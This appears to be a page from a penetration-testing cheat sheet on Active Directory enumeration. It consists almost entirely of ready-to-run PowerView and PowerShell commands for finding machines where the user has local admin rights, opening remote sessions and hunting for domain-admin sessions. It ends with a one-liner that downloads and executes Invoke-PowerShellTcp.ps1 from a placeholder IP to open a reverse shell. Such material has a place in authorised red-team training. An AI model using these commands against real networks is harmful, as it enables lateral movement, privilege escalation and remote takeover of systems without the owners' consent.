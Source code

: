 # 9⃣ Miscellaneous Enumeration

### **Powerview Find all machines on the current domain where the current user has local admin access**

```
Find-LocalAdminAccess -Verbose
```

```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

### **Powerview Find local admins on all machines of the domain (needs admin privs)**

```
Invoke-EnumerateLocalAdmin -Verbose
```

### **Connect to machine with administrator privs**

```
Enter-PSSession -Computername <computername>
```

### **Save and use sessions of a machine**

```
$sess = New-PSSession -Computername <computername>
Enter-PSSession $sess
```

### **Find active sessions**

```
Invoke-UserHunter
Invoke-UserHunter -Groupname "RDPUsers"
```

### **Find active sessions of domain admins**

```
Invoke-UserHunter -Groupname "Domain Admins"
```

### **Check access to machine**

```
Invoke-UserHunter -CheckAccess
```

### **Powershell reverse shell**

{% code overflow="wrap" %}
```
Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IP
```
{% endcode %}
